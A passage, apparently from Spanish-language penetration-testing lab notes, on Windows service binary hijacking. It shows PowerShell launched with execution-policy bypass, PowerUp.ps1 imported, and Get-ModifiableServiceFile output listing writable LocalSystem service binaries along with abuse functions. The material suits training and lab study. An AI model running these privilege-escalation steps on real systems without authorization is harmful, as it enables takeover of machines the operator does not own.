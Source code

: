Este mismo procedimiento puede ser realizado con PowerUp.ps1.

En primer lugar lo transportamos a la máquina y lo importamos en nuestra sessión de powershell:

```
C:\Users\dave>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows
PS C:\Users\dave> Import-Module .\PowerUp.ps1
PS C:\Users\dave> . .\PowerUp.ps1
```

Seguidamente enumeramos los servicios cuyos binarios pueden ser vulnerable a un hijacking:

```
PS C:\Users\dave> Get-ModifiableServiceFile


ServiceName                     : edgeupdate
Path                            : "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /svc
ModifiableFile                  : C:
ModifiableFilePermissions       : AppendData/AddSubdirectory
ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'edgeupdate'
CanRestart                      : False
Name                            : edgeupdate

ServiceName                     : edgeupdate
Path                            : "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /svc
ModifiableFile                  : C:
ModifiableFilePermissions       : {Delete, GenericWrite, GenericExecute, GenericRead}
ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'edgeupdate'
CanRestart                      : False
Name                            : edgeupdate

ServiceName                     : edgeupdatem
Path                            : "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /medsvc
ModifiableFile                  : C:
ModifiableFilePermissions       : AppendData/AddSubdirectory
ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'edgeupdatem'
CanRestart                      : False
Name                            : edgeupdatem

ServiceName                     : edgeupdatem
Path                            : "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /medsvc
ModifiableFile                  : C:
ModifiableFilePermissions       : {Delete, GenericWrite, GenericExecute, GenericRead}
ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'edgeupdatem'
CanRestart                      : False
Name                            : edgeupdatem

ServiceName                     : GammaService
Path                            : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```